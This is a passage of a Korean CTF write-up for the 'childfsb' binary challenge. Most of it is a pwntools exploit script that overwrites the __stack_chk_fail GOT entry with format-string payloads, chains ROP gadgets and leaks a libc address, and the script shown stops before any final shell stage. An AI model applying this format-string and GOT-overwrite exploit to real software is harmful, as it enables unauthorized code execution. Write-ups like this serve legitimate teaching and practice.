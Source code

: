         pop이 6개 진행되고 one_gadet이 정상적으로 호출될 것이다


<br><br><br>


### 3. 풀이

---
```python
최종 익스코드는 다음과 같다

from pwn import *
context.log_level="DEBUG"
#p=remote("ctf.j0n9hyun.xyz",3037)
p=process("./childfsb",aslr="False")
e=ELF("./childfsb")
gdb.attach(p,'code\nb *0x7a7+$code\n')

libc=ELF("./libc.so.6")
ppppppr=0x40082A
pppr=0x40082c
ppr=0x400831
pr=0x400833
stack_chk_got=e.got['__stack_chk_fail']
puts_got=e.got['puts']
puts_plt=e.plt['puts']
main=0x40075F
main_2=0x400760

payload = "%4196192c%8$ln"+"AA"
payload += p64(stack_chk_got)
payload += "A"*(0x19-len(payload))
p.recvuntil("hello\n")
pause()
p.send(payload)


payload2 = p64(0x4005b0)
payload2 += p64(main)
payload2 += "A"*(0x19-len(payload2))
pause()
p.sendafter("hello\n",payload2)

payload3 = p64(pr)
payload3 += p64(puts_got)
payload3 += p64(ppr)
payload3 += "A"*(0x19-len(payload3))
#pause()
p.sendafter("hello\n",payload3)


payload4 = "%4196394c%8$ln"+"AA"
payload4 += p64(stack_chk_got)
payload4 += "A"*(0x19-len(payload4))
p.sendafter("hello\n",payload4)

puts_libc=u64(p.recvuntil('hello')[-12:-6]+"\x00\x00")
libc_base=puts_libc-libc.symbols['puts']
log.info(hex(libc_base))

payload44 = "%4196192c%8$ln"+"AA"
payload44 += p64(stack_chk_got)
payload44 += "A"*(0x19-len(payload44))
p.send(payload44)
```